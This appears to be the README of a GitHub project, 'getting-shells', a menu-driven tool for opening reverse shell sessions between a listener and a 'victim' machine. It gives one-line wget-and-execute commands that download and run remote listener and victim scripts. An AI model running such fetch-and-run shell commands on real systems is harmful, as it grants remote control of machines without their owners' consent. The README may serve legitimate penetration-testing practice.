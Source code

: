 # getting-shells

Version 1
2021-11-23

## Purpose

Automation tool for listening and starting shells sessions.\
Both, the listener and the victim scripts check for already installed applications.\
This tool makes it very easy to try many ways lots of ways to get a shell by selecting numbers from a menu.

## Quick Execution

Listener:

```
wget -q "https://raw.githubusercontent.com/davift/getting-shells/main/listener.sh" && chmod +x listener.sh && ./listener.sh
```

![listener_screenshot](https://github.com/davift/getting-shells/blob/main/listener.png)

Victim:

```
wget -q "https://raw.githubusercontent.com/davift/getting-shells/main/victim.sh" && chmod +x victim.sh && ./victim.sh
```

![victim_screenshot](https://github.com/davift/getting-shells/blob/main/victim.png)

## Installation

No installation is required. This scripts can run out of the box. Just clone the repo:

```
git clone https://github.com/davift/getting-shells.git
```

## Execution

```

```

## Additionals

There is no such thing as dependencies to run this tool because it uses the available resources in the system to establish the connections.\
Additionally, the following script will help on installing more resources that will allow exploring all the functionalities of this tool:

```
./additionals.sh
```
## More Information

Read more at https://blog.dftorres.ca/?p=2224.
